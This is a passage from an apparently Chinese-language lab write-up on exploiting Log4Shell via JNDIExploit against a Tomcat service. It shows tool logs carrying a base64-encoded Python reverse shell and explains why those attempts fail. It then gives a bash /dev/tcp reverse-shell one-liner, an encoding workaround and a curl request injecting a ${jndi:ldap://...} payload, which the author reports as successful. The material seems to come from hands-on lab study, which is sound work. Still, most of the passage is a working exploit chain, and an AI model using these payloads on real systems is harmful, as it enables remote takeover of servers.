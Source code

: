```bash
[+] Received LDAP Query: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Paylaod: command
[!] Exception: Incorrect params: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Received LDAP Query: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Paylaod: command
[!] Exception: Incorrect params: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
```
同时仍然无法完成反弹shell。根据以上日志可知，问题出在参数解析错误（Incorrect params），这表明 JNDIExploit 无法正确处理发送的 Base64 编码后的 Python 反弹 Shell 命令。

在反复尝试多次之后，发现可能的原因是JNDIExploit 可能对 URL 编码后的 %2B（+）和 %3D（=）敏感，导致无法正确解析 Base64 编码后的命令。
尝试调整，移除填充符 = 并简化编码：
```bash
cmd='bash -i >& /dev/tcp/192.168.8.132/7777 0>&1'

# Base64 编码后移除填充符 `=`，并替换特殊符号
encoded_cmd=$(echo -n "$cmd" | base64 -w 0 | tr -d '=' | sed 's/+/%2B/g')

# 发送请求（注意不再手动编码 `=`）
curl -G "http://192.168.8.129:48217/hello" --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_cmd}}"
```
![](./pic/修改curl请求成功反弹shell.png)
